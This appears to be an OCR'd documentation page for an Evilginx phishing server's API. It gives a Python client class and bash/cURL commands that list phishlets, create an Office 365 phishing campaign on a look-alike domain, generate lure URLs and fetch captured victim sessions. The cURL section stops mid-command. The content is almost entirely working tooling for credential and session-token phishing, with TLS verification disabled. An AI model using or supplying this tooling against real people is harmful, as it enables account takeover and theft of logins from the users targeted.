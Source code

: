 ```python
    def list_phishlets(self):
        response = requests.get(f"{self.base_url}/api/phishlets", 
                              headers=self.headers, verify=False)
        return response.json()
    
    def create_campaign(self, name, template, domain):
        data = {
            "name": name,
            "template": template, 
            "domain": domain
        }
        response = requests.post(f"{self.base_url}/api/phishlets",
                               headers=self.headers, json=data, verify=False)
        return response.json()
    
    def create_lure(self, phishlet_name):
        data = {"phishlet_name": phishlet_name}
        response = requests.post(f"{self.base_url}/api/lures",
                               headers=self.headers, json=data, verify=False)
        return response.json()
    
    def get_sessions(self):
        response = requests.get(f"{self.base_url}/api/sessions",
                              headers=self.headers, verify=False)
        return response.json()

# Usage example
api = EvilginxAPI("https://localhost:8443", "your_api_token")

# Set up a phishing campaign
campaign = api.create_campaign("finance-test", "office365", "secure-finance.com")
print(f"Campaign created: {campaign['hostname']}")

# Create a lure
lure = api.create_lure("office365")
print(f"Phishing URL: {lure['url']}")

# Check for captured sessions
sessions = api.get_sessions()
print(f"Captured {len(sessions['sessions'])} sessions")
```

### Bash/cURL Examples
```bash
#!/bin/bash

API_TOKEN="your_api_token_here"
BASE_URL="https://localhost:8443"

# List current phishlets
curl -k -H "Authorization: Bearer $API_TOKEN" \
     "$BASE_URL/api/phishlets"

# Create a new phishing campaign
curl -k -H "Authorization: Bearer $API_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"name":"test","template":"office365","domain":"secure-login.com"}' \
     "$BASE_URL/api/phishlets"

# Generate a phishing lure
curl -k -H "Authorization: Bearer $API_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"phishlet_name":"office365"}' \
```